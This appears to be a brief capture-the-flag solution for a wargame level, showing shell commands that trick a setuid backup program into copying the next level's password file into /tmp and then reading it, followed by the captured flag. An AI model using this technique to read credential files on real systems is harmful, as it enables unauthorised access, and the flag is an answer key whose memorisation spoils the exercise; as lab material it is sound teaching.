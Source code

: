 ```
cd /tmp

~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass

mkdir -p './backups//home/users/level09/'

~/level08 /home/users/level09/.pass

cat './backups//home/users/level09/.pass'
```

> Flag: fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

